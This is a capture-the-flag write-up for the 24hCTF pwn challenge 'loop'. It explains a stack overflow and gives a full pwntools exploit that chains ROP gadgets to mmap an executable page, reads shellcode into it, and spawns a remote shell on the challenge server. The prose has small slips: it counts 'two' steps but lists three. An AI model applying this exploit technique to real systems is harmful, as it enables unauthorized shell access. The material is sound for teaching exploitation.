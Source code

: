 # 24hCTF - pwn - loop

The `loop` program is hand-written in assembly. It takes (2) inputs:
the first of 33 bytes, the second of 512 bytes. It then prints the
first input 33 times; in a loop.


## Solution

The second input overwrites the function's return address and allow
us to take control of the execution. One thing I noticed is that,
before taking any inputs, `mmap` is called, but its value is never
used. With that observation, I started working on a ROP chain composed
of two (2) operations:

1. create a rwx memory page by calling `mmap`;
2. write to that page using `read`;
3. redirect execution to the page.

Below, the exploit.

```
# ==================================================================== #

from pwn import *

context.binary = elf = ELF(sys.argv[1])

# -------------------------------------------------------------------- #

P = lambda v : p32(v) if 32 == context.bits else p64(v)


sc = asm(shellcraft.amd64.linux.sh())

PAD = 40
BUF = 0x300000

pl = b''
#pl += P(0x401000)

# mmap()
# rdi: 0x1000
# rsi: 0x1000
# rdx: PROT_WRITE|PROT_READ|PROT_EXEC = 7
# r10: 0x22
# finalize 0x40102a

#0x000000000040111f: pop rdi; ret;
pl += P(0x40111f)
pl += P(BUF) # rdi
#0x0000000000401121: pop rsi; ret;
pl += P(0x401121)
pl += P(0x1000) # rsi
#0x0000000000401123: pop rdx; ret;
pl += P(0x401123)
pl += P(7)
# mmap()
pl += P(0x40102a)

# loop again
pl += (b'y'*PAD)

# read()
# rdi: 0
# rsi: 0x1000
# rdx: len(sc)
#0x000000000040111f: pop rdi; ret;
pl2 = P(0x40111f)
pl2 += P(0) # stdin
#0x0000000000401121: pop rsi; ret;
pl2 += P(0x401121)
pl2 += P(BUF)
#0x0000000000401123: pop rdx; ret;
pl2 += P(0x401123)
pl2 += P(len(sc))
# read()
pl2 += P(0x4010c1)
#pl2 += P(0x40109a)

# ret
# 0x0000000000401046: ret;
pl2 += P(0x401046)
pl2 += P(BUF)

# -------------------------------------------------------------------- #

io = remote('0.cloud.chals.io', 34997)

io.send(b'1'*0x21)
io.send((b'y'*PAD) + pl)
io.recvuntil('1'*0x21)

io.send(b'2'*0x21)
io.send((b'y'*PAD) + pl2)
io.recvuntil('2'*0x21)

io.send(sc)

io.interactive()

# ==================================================================== #
```
